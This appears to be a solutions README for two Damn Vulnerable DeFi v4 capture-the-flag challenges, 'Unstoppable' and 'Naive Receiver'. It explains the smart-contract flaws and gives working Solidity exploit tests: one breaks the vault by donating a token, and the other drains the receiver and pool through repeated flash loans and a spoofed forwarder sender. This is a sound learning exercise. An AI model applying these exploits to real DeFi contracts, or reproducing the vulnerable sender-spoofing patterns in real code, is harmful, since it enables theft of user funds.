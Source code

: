 # damn vulnerable defi v4 solutuions

Here I solve Damn Vulnerable DeFi v4 challenges: https://www.damnvulnerabledefi.xyz/

In the explanations below, I assume that you are familiar with contracts.

[1. Unstoppable](#1-unstoppable)      
[2. Naive Receiver](#2-naive-receiver)

## 1. Unstoppable

### Challenge Overview

There's a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.
To catch any bugs before going 100% permissionless, the developers decided to run a live beta in testnet. There's a monitoring contract to check liveness of the flashloan feature.
Starting with 10 DVT tokens in balance, show that it's possible to halt the vault. It must stop offering flash loans.

### Contracts

UnstoppableVault.sol - main logic      
UnstoppableMonitor.sol - monitoring if vault is functional      
      
### Vulnerability Analysis

In the UnstoppableVault.sol contract, we have a flashLoan function, where the core functionality is implemented. If we break this function, the vault will stop giving loans.

There are 3 checkings before the function starts executing the loan

      if (amount == 0) revert InvalidAmount(0); // fail early
      if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
      uint256 balanceBefore = totalAssets();
      if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

This is the critical part. If we succeed in making the function always fail one of those checks, the vault will stop giving loans.
The only checking that is not dependent on function parameters is the third one. 

      if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

This check creates a strict requirement that the vault's accounting system always match the actual token balance. 

### Solution

By simply sending DVT tokens to the contract balance, we will successfully break the vault!

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_unstoppable() public checkSolvedByPlayer {
        token.transfer(address(vault), 1);
    }


## 2. Naive receiver

### Challenge Overview

There’s a pool with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. The pool supports meta-transactions by integrating with a permissionless forwarder contract. 
A user deployed a sample contract with 10 WETH in balance. Looks like it can execute flash loans of WETH.
All funds are at risk! Rescue all WETH from the user and the pool, and deposit it into the designated recovery account.

### Contracts:

NaiveRecevierPool.sol - The main pool that enables flash loans  
FlashLoanReceiver.sol - The victim borrower contract that will be drained      
BasicForwarder.sol - Enables meta-transactions through an EIP-712 system      
Multicall.sol - Allows batching multiple function calls into one transaction

### Vulnerability Analysis

So, we need to drain 1010 WETH from the pool and borrower contract. In NaiveReceiver.sol, we have the flashLoan function, which implements the core loan functionality. It calls the borrower's onFlashLoan() function, and here, we have our first critical security problem.

    function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata)
        external
        returns (bytes32)
    {
        assembly {
            // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }

        if (token != address(NaiveReceiverPool(pool).weth())) revert NaiveReceiverPool.UnsupportedCurrency();

        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        WETH(payable(token)).approve(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

The onFlashLoan() function only checks if the caller is the pool, but it doesn't check if the transaction initiator is the actual owner of the contract. This means that anyone can call the transaction on the owner's behalf, and here is the solution to the first part of our challenge. As the fee of the loan is 1 ETH, we can drain the borrower's balance by simply calling the loan function 10 times on the owner's behalf. Now, all 1010 ETH are on the contract's balance and belong to the pool deployer.
We also need to drain the pool's balance. If we look closer to withdraw function, we'll see that the function does not check if the receiver is the initiator of the withdrawal. 

        // Reduce deposits
        deposits[_msgSender()] -= amount;
        totalDeposits -= amount;

        // Transfer ETH to designated receiver
        weth.transfer(receiver, amount);
    }

So we can put our address as the receiver. But there is a problem here. We, as msg.sender, don't have any balance in the pool's accounting. If we look closer at how _msgSender() function retrieves the initiator's address, we'll find the second security problem!

    function _msgSender() internal view override returns (address) {
        if (msg.sender == trustedForwarder && msg.data.length >= 20) {
            return address(bytes20(msg.data[msg.data.length - 20:]));
        } else {
            return super._msgSender();
        }
    }

Here, if _msgSender() got the request from trustedForwarder and it has msg.data appended to it, it will return the address appended to the request. So here, we can simply initiate a withdrawal request through Forwarder and append the deployer's address to it. The withdraw function will receive the deployer's address and will transfer all the funds to the specified receiver!

### Solution

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_naiveReceiver() public checkSolvedByPlayer {

        uint8 numberOfCalls = 11;

        // Create an array of encoded flashLoan calls
        bytes[] memory encodedCalls = new bytes[](numberOfCalls);

        for(uint8 i = 0; i < 10; i++) {
            // Encode the call to flashLoan
            encodedCalls[i] = abi.encodeWithSignature(
                "flashLoan(address,address,uint256,bytes)",
                address(receiver),
                address(weth),
                0,
                ""
            );
        }

        // Encode the call to withdraw
        encodedCalls[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_RECEIVER + WETH_IN_POOL, payable(recovery))), 
            bytes32(uint256(uint160(deployer)))
        );

        // Encode the multicall data
        bytes memory multicallData = abi.encodeCall(pool.multicall, encodedCalls);

        // Create the request
        BasicForwarder.Request memory request = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: gasleft(),
            nonce: forwarder.nonces(player),
            data: multicallData,
            deadline: 1 days
        });

        // Hash the request
        bytes32 requestHash = keccak256(abi.encodePacked(
            "\x19\x01",
            forwarder.domainSeparator(),
            forwarder.getDataHash(request)
            )
        );

        // Sign the request
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, requestHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        // Execute the transaction
        forwarder.execute(request, signature);
    }

